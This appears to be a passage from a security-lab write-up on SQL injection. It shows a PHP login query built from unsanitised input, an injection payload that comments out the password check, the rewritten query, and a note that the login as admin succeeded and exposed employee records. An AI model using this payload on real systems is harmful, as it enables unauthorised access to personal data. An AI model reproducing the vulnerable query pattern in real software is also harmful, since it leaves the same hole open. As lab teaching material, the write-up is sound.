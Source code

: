 The SQL statement is as follows:

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential 
WHERE name= '$input_uname' and Password='$hashed_pwd'";
```

The payload will be:

- $input_uname = `' or Name='Admin'; #`
- $input_pwd = `123`

The SQL statement after injection will be:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential 
WHERE name= '' or Name='Admin'; #' and Password='$hashed_pwd';
```

The part after `#` is a comment, so it will be ignored. the condition `name= '' or Name='Admin'` will select the admin's record, and the password check will be bypassed.

Observation: we successfully logged in as admin without knowing the password, and we can see all employees' information.

![](images/4-3-1.png)
